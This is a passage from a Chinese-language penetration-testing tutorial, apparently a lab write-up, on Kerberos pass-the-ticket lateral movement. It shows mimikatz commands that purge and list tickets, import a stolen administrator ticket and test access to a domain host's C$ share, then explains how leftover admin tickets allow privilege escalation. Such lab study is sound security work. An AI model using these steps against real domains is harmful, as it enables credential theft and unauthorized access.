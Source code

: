### 4.6.2. 清空票据

为了严谨，这里还是需要将所有现阶段的票据清空。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```

![image-20230717140701526](assets/GvOTEmodMNCQYnc.png)

### 4.6.3. 导入票据并测试

这里你可以看是成功导入票据了，并且也测试成功了，不过需要注意的时候，由于导出的历史票据很多，如果是真实情况下，那么会更过，所以需要一条一条测试才可以，我也是找到一个administrator信息导入成功的。

好像还有时间限制哦，我测试完，一会就无法登陆了。

```
mimikatz kerberos::ptt C:\gx\[0;1b1c3]-0-0-40a50000-administrator@cifs-win-rli2sl6fgbd.yuto.com.kirbi  导入票据
shell dir \\WIN-RLI2SL6FGBD\c$  测试
```

![image-20230717141046746](assets/zYeGMyIhnLVKDt8.png)

## 4.7. 总结

像pth、smb、wmi、ps利用这些都需要使用到smb或者wmi的协议是正常状态下，也就是上面介绍到的pth与ptk都需要相应的协议正常，而且如果这些协议不正常才会去使用到票据的验证。

关于票据整体的思路就是，我获取到一台域内主机后，而域内主机在前期配置过程中的时候，域控管理员正常都会登陆过域控账号密码，而在此后域内主机就会留下该票据，而我们进行操作的时候，就是将这些遗留下的票据调用起来，让票据去验证，只要管理员没有定期去修改域控的账号密码，那么票据就能够验证成功，我们也就相当于成功借用票据，将一个普通用户未造成一个管理员。
